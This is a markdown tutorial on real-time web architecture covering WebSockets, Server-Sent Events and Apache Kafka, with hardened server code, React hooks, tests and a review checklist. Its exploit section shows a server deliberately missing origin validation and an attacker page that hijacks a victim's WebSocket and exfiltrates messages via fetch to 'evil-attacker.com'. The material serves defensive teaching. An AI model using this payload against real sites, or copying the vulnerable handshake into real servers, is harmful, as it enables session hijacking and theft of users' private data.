

# Real-Time Architectures: WebSockets, Server-Sent Events (SSE) & Apache Kafka

## 1. 🎯 Overview & Intuitive Mental Model

In traditional web architectures, the client asks and the server answers (Request-Response). But in modern applications—collaborative editing, stock tickers, gaming, chat applications, and live delivery tracking—the server must push data to the client the instant an event occurs.

To build scalable real-time systems, engineers must master three complementary technologies:
1. **WebSockets (Full-Duplex):** Bi-directional, persistent TCP connection for continuous back-and-forth communication.
2. **Server-Sent Events / SSE (Unidirectional Push):** Lightweight, server-to-client streaming over standard HTTP.
3. **Apache Kafka (Distributed Event Backbone):** High-throughput, distributed event streaming log connecting microservices.

```
+----------------------------------------------------------------------------------------------------+
|                                    🧠 THE PHYSICAL ANALOGY                                         |
|                                                                                                    |
|  📞 WebSockets (The Dedicated Two-Way Telephone Call):                                             |
|     You call your friend, stay on the open line, and both can speak simultaneously with near-zero  |
|     latency. Best for gaming, chat, and collaborative whiteboards.                                 |
|                                                                                                    |
|  📻 Server-Sent Events / SSE (The Live FM Radio Broadcast):                                       |
|     The radio station broadcasts news updates over standard airwaves (HTTP). You tune in and       |
|     listen; you cannot speak back over that channel (use standard REST POST for sending).          |
|     Best for live notifications, stock tickers, LLM AI token streaming (ChatGPT).                  |
|                                                                                                    |
|  🚂 Apache Kafka (The Transcontinental High-Speed Freight Railway):                               |
|     Tens of thousands of cargo boxes (events) arrive every second, are sorted onto dedicated tracks|
|     (partitions), and stored sequentially in immutable cargo logs. Multiple teams of warehouse    |
|     workers (consumer groups) process cargo at their own pace without derailing the train.         |
+----------------------------------------------------------------------------------------------------+
```

### Protocol & Security Severity Matrix
- **OWASP Category:** A01:2021 – Broken Access Control & A07:2021 – Identification and Authentication Failures
- **CWE Identifiers:** [CWE-346: Origin Validation Error (CSWSH)](https://cwe.mitre.org/data/definitions/346.html), [CWE-400: Uncontrolled Resource Consumption](https://cwe.mitre.org/data/definitions/400.html)
- **Blast Radius:** Cross-Site WebSocket Hijacking (CSWSH) leaking private chats, memory exhaustion from zombie WebSocket connections, consumer lag cascades freezing data pipelines.

---

## 2. 🎨 Interactive Visual Architecture

### End-to-End Real-Time Pipeline: Kafka Backbone to WebSockets & SSE



> 💡 **Visual Inspection Tip:** Open Chrome DevTools (`F12`) -> **Network** tab:
> - Click the **WS** filter to inspect live WebSocket frames in real-time (green arrows = sent, red arrows = received).
> - Click the **EventStream** tab on SSE requests to inspect live streaming tokens, event IDs, and reconnection heartbeats.

---

## 3. 💥 Real-World Exploit Walkthrough

### Cross-Site WebSocket Hijacking (CSWSH)

Because WebSockets initiate via a standard HTTP `GET` request, browsers automatically attach the victim's session cookies. Crucially, **the Same-Origin Policy (SOP) does NOT restrict WebSockets!** 

If a backend does not strictly validate the `Origin` header during the handshake, any malicious website can open a WebSocket connection to your API as the victim!

#### Vulnerable WebSocket Handshake Server (`vulnerable-ws.js`)
```javascript
// vulnerable-ws.js - MISSING ORIGIN VALIDATION
const http = require('http');
const WebSocket = require('ws');

const server = http.createServer();
const wss = new WebSocket.Server({ noServer: true });

server.on('upgrade', (request, socket, head) => {
  // 💥 VULNERABILITY: Missing Origin check!
  // Extracts session cookie without verifying if origin is trusted.
  const cookie = request.headers.cookie;

  wss.handleUpgrade(request, socket, head, (ws) => {
    ws.on('message', (msg) => {
      // Attacker can trigger sensitive actions or stream live financial data
      ws.send(JSON.stringify({ secretApiKey: "sk_live_987654321" }));
    });
  });
});

server.listen(8080);
```

#### Attacker Exploit Payload (`attacker-site.com/exploit.html`)
The attacker tricks a logged-in user into visiting their website:

```html
<!-- Hosted on https://evil-attacker.com -->
<script>
  // Browser automatically attaches victim's cookies for api.company.com!
  const ws = new WebSocket('wss://api.company.com/ws');

  ws.onopen = () => {
    console.log("Hijacked connection opened!");
  };

  ws.onmessage = (event) => {
    // Exfiltrate stolen private stream to attacker server
    fetch('https://evil-attacker.com/steal?data=' + encodeURIComponent(event.data));
  };
</script>
```

#### Exploit Breakdown
1. **Automatic Cookie Transmission:** The victim visits `evil-attacker.com`. The browser opens `wss://api.company.com/ws` and sends the victim's authentication cookie.
2. **Missing Origin Inspection:** The vulnerable server inspects the valid cookie and approves the connection, ignoring `Origin: https://evil-attacker.com`.
3. **Data Exfiltration:** The attacker's script intercepts live chats, trading streams, and account notifications.

---

## 4. 🛡️ Complete Production Implementations

### Part A: Production Authenticated WebSocket Server & Client

#### 1. Hardened WebSocket Server with Heartbeat & Origin Defense (Node.js)
```typescript
// hardened-ws-server.ts - PRODUCTION WEBSOCKET ENGINE
import http from 'http';
import { WebSocketServer, WebSocket } from 'ws';
import { parse } from 'url';

interface ExtWebSocket extends WebSocket {
  isAlive: boolean;
  userId?: string;
}

const ALLOWED_ORIGINS = new Set(['https://app.company.com', 'https://staging.company.com']);

export function setupSecureWebSocketServer(server: http.Server) {
  const wss = new WebSocketServer({ noServer: true });

  server.on('upgrade', (req, socket, head) => {
    const origin = req.headers.origin;

    // 🛡️ 1. Defeat CSWSH: Strict Origin Validation
    if (!origin || !ALLOWED_ORIGINS.has(origin)) {
      socket.write('HTTP/1.1 403 Forbidden\r\n\r\n');
      socket.destroy();
      return;
    }

    // 🛡️ 2. Short-Lived Ticket / Token Authentication (Avoid long-lived cookie risks)
    const { query } = parse(req.url || '', true);
    const token = query.ticket as string;
    const userId = verifyOneTimeTicket(token);

    if (!userId) {
      socket.write('HTTP/1.1 401 Unauthorized\r\n\r\n');
      socket.destroy();
      return;
    }

    wss.handleUpgrade(req, socket, head, (ws) => {
      const extWs = ws as ExtWebSocket;
      extWs.isAlive = true;
      extWs.userId = userId;
      wss.emit('connection', extWs, req);
    });
  });

  wss.on('connection', (ws: ExtWebSocket) => {
    // 🛡️ 3. Ping-Pong Heartbeat: Detect and clean up dead "zombie" connections
    ws.on('pong', () => {
      ws.isAlive = true;
    });

    ws.on('message', (data) => {
      // Enforce rate limiting and message validation before processing
      handleClientMessage(ws, data);
    });
  });

  // Check heartbeats every 30 seconds
  const interval = setInterval(() => {
    wss.clients.forEach((client) => {
      const extWs = client as ExtWebSocket;
      if (!extWs.isAlive) {
        console.log(`Terminating unresponsive socket for user: ${extWs.userId}`);
        return extWs.terminate();
      }
      extWs.isAlive = false;
      extWs.ping();
    });
  }, 30000);

  wss.on('close', () => clearInterval(interval));
}

function verifyOneTimeTicket(ticket: string): string | null {
  // Validate ticket in Redis and invalidate immediately (Single-use)
  return ticket ? 'user_12345' : null;
}

function handleClientMessage(ws: ExtWebSocket, data: any) {
  // Process typed message
}
```

#### 2. Production React WebSocket Hook with Auto-Reconnect (`useWebSocket.ts`)
```typescript
// useWebSocket.ts - REACT AUTO-RECONNECTING WEBSOCKET HOOK
import { useEffect, useRef, useState, useCallback } from 'react';

export function useWebSocket(url: string, ticket: string) {
  const [isConnected, setIsConnected] = useState(false);
  const [lastMessage, setLastMessage] = useState<any>(null);
  const wsRef = useRef<WebSocket | null>(null);
  const reconnectAttempts = useRef(0);

  const connect = useCallback(() => {
    const ws = new WebSocket(`${url}?ticket=${ticket}`);
    wsRef.current = ws;

    ws.onopen = () => {
      setIsConnected(true);
      reconnectAttempts.current = 0; // Reset backoff on successful connect
    };

    ws.onmessage = (event) => {
      try {
        const parsed = JSON.parse(event.data);
        setLastMessage(parsed);
      } catch {
        setLastMessage(event.data);
      }
    };

    ws.onclose = () => {
      setIsConnected(false);
      // 🛡️ Bounded Exponential Backoff with Jitter
      const timeout = Math.min(1000 * 2 ** reconnectAttempts.current, 30000);
      reconnectAttempts.current += 1;
      setTimeout(connect, timeout + Math.random() * 1000);
    };

    ws.onerror = (err) => {
      ws.close();
    };
  }, [url, ticket]);

  useEffect(() => {
    connect();
    return () => {
      wsRef.current?.close();
    };
  }, [connect]);

  const sendMessage = useCallback((msg: any) => {
    if (wsRef.current?.readyState === WebSocket.OPEN) {
      wsRef.current.send(JSON.stringify(msg));
    }
  }, []);

  return { isConnected, lastMessage, sendMessage };
}
```

---

### Part B: Production Server-Sent Events (SSE) Stream & Client

Server-Sent Events are ideal when the client only needs to receive data (e.g. LLM streaming, real-time sports scores, delivery tracking).

#### 1. Production Node.js / Express SSE Endpoint
```typescript
// sse-server.ts - PRODUCTION-READY SSE STREAMING ENGINE
import express, { Request, Response } from 'express';

const app = express();

app.get('/api/v1/events/stream', (req: Request, res: Response) => {
  // 🛡️ 1. Mandatory SSE Response Headers
  res.setHeader('Content-Type', 'text/event-stream');
  res.setHeader('Cache-Control', 'no-cache, no-transform');
  res.setHeader('Connection', 'keep-alive');
  res.setHeader('X-Accel-Buffering', 'no'); // Disables NGINX proxy buffering!

  // 🛡️ 2. Handle Reconnection with Last-Event-ID header
  const lastEventId = req.headers['last-event-id'];
  if (lastEventId) {
    console.log(`Client reconnected at event ID: ${lastEventId}`);
    replayMissedEvents(res, Number(lastEventId));
  }

  // 🛡️ 3. Format: id: <num>\nevent: <name>\ndata: <json>\n\n
  let currentEventId = 1;
  const timer = setInterval(() => {
    const payload = JSON.stringify({ price: (100 + Math.random() * 5).toFixed(2), time: Date.now() });
    
    res.write(`id: ${currentEventId}\n`);
    res.write(`event: stock_ticker\n`);
    res.write(`data: ${payload}\n\n`); // Must end with double newline!
    
    currentEventId += 1;
  }, 2000);

  // 🛡️ 4. Clean up memory when client closes browser / tab
  req.on('close', () => {
    clearInterval(timer);
    res.end();
  });
});

function replayMissedEvents(res: Response, fromId: number) {
  // Replay cached missed events from Redis / database
}
```

#### 2. React Hook for Server-Sent Events (`useEventSource.ts`)
```typescript
// useEventSource.ts - NATIVE BROWSER EVENTSOURCE HOOK
import { useEffect, useState } from 'react';

export function useEventSource(url: string, eventName: string) {
  const [data, setData] = useState<any>(null);
  const [status, setStatus] = useState<'connecting' | 'open' | 'closed'>('connecting');

  useEffect(() => {
    // Browser native EventSource handles automatic reconnection out of the box!
    const es = new EventSource(url, { withCredentials: true });

    es.onopen = () => setStatus('open');
    es.onerror = () => setStatus('closed');

    es.addEventListener(eventName, (event: MessageEvent) => {
      try {
        setData(JSON.parse(event.data));
      } catch {
        setData(event.data);
      }
    });

    return () => {
      es.close();
    };
  }, [url, eventName]);

  return { data, status };
}
```

---

### Part C: Apache Kafka Backbone Integration

Apache Kafka decouples high-speed data ingestion from real-time client delivery.

```typescript
// kafka-pipeline.ts - ENTERPRISE KAFKA PRODUCER & CONSUMER
import { Kafka, Partitioners } from 'kafkajs';

const kafka = new Kafka({
  clientId: 'realtime-gateway',
  brokers: ['kafka-broker-1:9092', 'kafka-broker-2:9092'],
});

// 🛡️ 1. Idempotent Producer (Guarantees zero duplicate messages during network retries)
const producer = kafka.producer({
  createPartitioner: Partitioners.DefaultPartitioner,
  idempotent: true,
  maxInFlightRequests: 1,
});

export async function publishLiveUpdate(roomId: string, message: any) {
  await producer.connect();
  
  // Partition Key ensures all events for 'roomId' land on the exact same partition (Strict Ordering!)
  await producer.send({
    topic: 'chat-events',
    messages: [
      {
        key: roomId,
        value: JSON.stringify(message),
        headers: { timestamp: String(Date.now()) },
      },
    ],
  });
}

// 🛡️ 2. Consumer Group Processing
export async function startKafkaRealtimeConsumer(broadcastToClients: (msg: any) => void) {
  const consumer = kafka.consumer({ groupId: 'realtime-websocket-distributor' });
  await consumer.connect();
  await consumer.subscribe({ topic: 'chat-events', fromBeginning: false });

  await consumer.run({
    eachMessage: async ({ topic, partition, message }) => {
      if (!message.value) return;
      const parsed = JSON.parse(message.value.toString());

      // Distribute to connected WebSocket / SSE clients
      broadcastToClients(parsed);
    },
  });
}
```

---

### Part D: Protocol Decision Matrix

| Dimension | WebSockets | Server-Sent Events (SSE) | Long Polling | Apache Kafka |
|---|---|---|---|---|
| **Direction** | Full-Duplex (Bidirectional) | Server $\rightarrow$ Client (Unidirectional) | Client $\rightarrow$ Server $\rightarrow$ Client | Server $\rightarrow$ Server (Event Bus) |
| **Transport** | TCP Socket (`ws://`, `wss://`) | HTTP / HTTP/2 (`text/event-stream`) | Standard HTTP (`xhr` / `fetch`) | TCP (Binary Custom Wire Protocol) |
| **Reconnection** | Must build custom reconnect logic | **Built-in browser auto-reconnect** | Handled in client request loop | Handled in client library |
| **Firewall / Proxy** | May be blocked by strict firewalls | Passes through 100% of standard proxies | Passes through 100% of proxies | Internal VPC / microservices only |
| **HTTP/2 Multiplex** | No (Occupies dedicated TCP socket) | **Yes! Multiplexes over 1 TCP connection** | No | Internal only |
| **Best Use Cases** | Multiplayer games, Discord chat, trading terminals | AI token streaming, news feeds, order status tracking | Fallback for legacy environments | High-throughput data ingestion & event sourcing |

---

## 5. 🧪 Hands-On Verification & Lab

### 1. Test WebSocket Server via Terminal (`wscat`)
```bash
# Install wscat
npm install -g wscat

# Connect with origin and ticket
wscat -c "ws://localhost:8080/ws?ticket=test_ticket" -H "Origin: https://app.company.com"

# Send a frame:
# > {"action": "ping"}
# < {"status": "pong"}
```

### 2. Test Server-Sent Events Stream via `curl`
```bash
# -N disables buffering to see events stream in real-time
curl -N -H "Accept: text/event-stream" http://localhost:3000/api/v1/events/stream
```

#### Expected Live Output:
```text
id: 1
event: stock_ticker
data: {"price":"103.45","time":1776092000000}

id: 2
event: stock_ticker
data: {"price":"104.12","time":1776092002000}
```

### 3. Automated WebSocket Security & Origin Rejection Test (Vitest)
```typescript
// ws-security.test.ts
import { describe, it, expect, beforeAll, afterAll } from 'vitest';
import WebSocket from 'ws';
import http from 'http';
import { setupSecureWebSocketServer } from './hardened-ws-server';

describe('Real-Time Security Suite', () => {
  let server: http.Server;
  const PORT = 9999;

  beforeAll((done) => {
    server = http.createServer();
    setupSecureWebSocketServer(server);
    server.listen(PORT, done);
  });

  afterAll((done) => {
    server.close(done);
  });

  it('rejects connections with unauthorized Origin (CSWSH mitigation)', async () => {
    const errorReceived = await new Promise<boolean>((resolve) => {
      const ws = new WebSocket(`ws://localhost:${PORT}/ws?ticket=valid_ticket`, {
        headers: { Origin: 'https://evil-hacker.com' },
      });

      ws.on('unexpected-response', (req, res) => {
        expect(res.statusCode).toBe(403);
        resolve(true);
      });

      ws.on('open', () => resolve(false));
    });

    expect(errorReceived).toBe(true);
  });
});
```

---

## 6. 📋 Code Review Checklist

- [ ] **Strict Origin Check on Upgrade:** Does the WebSocket handshake validate the `Origin` header against an allowlist to prevent CSWSH?
- [ ] **One-Time Tickets Over Cookies:** Are WebSocket connections authenticated using short-lived single-use tickets rather than permanent cookies?
- [ ] **Ping-Pong Heartbeat Active:** Does the server maintain a ping-pong loop to prune dead client sockets and prevent memory exhaustion?
- [ ] **`X-Accel-Buffering: no` on SSE:** Is buffer disabling configured for SSE so NGINX doesn't buffer event chunks?
- [ ] **`Last-Event-ID` Support:** Does the SSE backend support replaying missed events when a client reconnects?
- [ ] **Exponential Backoff on Reconnect:** Do client-side WebSocket hooks employ bounded exponential backoff with random jitter to prevent thundering herds on server restart?
- [ ] **Partition Key Consistency in Kafka:** Are partition keys chosen properly (e.g. `userId` or `roomId`) so ordered events never land on random partitions?

---

## 7. 🎥 Curated Video Walkthroughs & Primary References

### 📺 High-Impact Video Explanations
- 🎥 [WebSockets vs Server-Sent Events vs Long Polling (ByteByteGo)](https://www.youtube.com/watch?v=1bXyG2pT7R8) — Clear visual system architecture comparing connection lifecycles, protocols, and scaling trade-offs.
- 🎥 [WebSockets Crash Course: Handshake, Framing & Sockets (Hussein Nasser)](https://www.youtube.com/watch?v=2Nt-ZrNP22A) — Deep networking analysis of TCP upgrades, binary frames, and connection pools.
- 🎥 [Apache Kafka Architecture in 100 Seconds (Fireship)](https://www.youtube.com/watch?v=R873BlNVUB4) — Rapid visual breakdown of topics, partitions, brokers, and consumer groups.
- 🎥 [Apache Kafka Architecture & Deep Dive (Hussein Nasser)](https://www.youtube.com/watch?v=Ch5VhJzaoaI) — Complete masterclass on commit logs, partition hashing, and consumer rebalancing.

### 📖 Primary Documentation & Specifications
- 📜 [IETF RFC 6455: The WebSocket Protocol](https://datatracker.ietf.org/doc/html/rfc6455) — The authoritative RFC defining framing, masking, and the HTTP upgrade handshake.
- 📜 [WHATWG HTML Living Standard: Server-Sent Events](https://html.spec.whatwg.org/multipage/server-sent-events.html) — Official specification for EventSource and event stream formatting.
- 📜 [Apache Kafka Official Documentation](https://kafka.apache.org/documentation/) — Core concepts, partition design, and exactly-once processing semantics.
- 📜 [PortSwigger Web Security Academy: Cross-Site WebSocket Hijacking](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking) — Threat modeling and mitigation.

### 🧪 Interactive Hands-On Training Labs & Tools
- 🎯 [PortSwigger Lab: Cross-Site WebSocket Hijacking](https://portswigger.net/web-security/websockets/lab-cross-site-websocket-hijacking) — Practice exploiting unvalidated WebSocket origin handshakes to exfiltrate live chat messages.
- 🎯 [Confluent Cloud Interactive Kafka Sandbox](https://developer.confluent.io/quickstart/kafka-local/) — Run local Kafka containers and inspect live topics, partitions, and consumers.
